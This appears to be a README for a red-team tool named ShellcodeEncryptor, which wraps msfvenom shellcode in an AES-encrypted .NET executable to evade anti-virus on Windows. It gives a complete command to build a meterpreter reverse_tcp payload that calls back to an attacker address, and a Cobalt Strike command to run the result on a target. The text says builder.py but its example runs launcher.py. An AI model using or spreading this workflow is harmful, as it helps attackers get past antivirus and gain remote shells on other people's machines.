 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box):
```
root@kali:~# ./launcher.py -p windows/meterpreter/reverse_tcp --arch x86 --lport 4444 --lhost 10.10.14.5 --key my_super_key -f boom.exe
[+] Generating MSFVENOM payload...
[+] Encrypting the payload...
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Notes

The .cs files are provided as a reference.
Tested with x86 windows/meterpreter/reverse_tcp
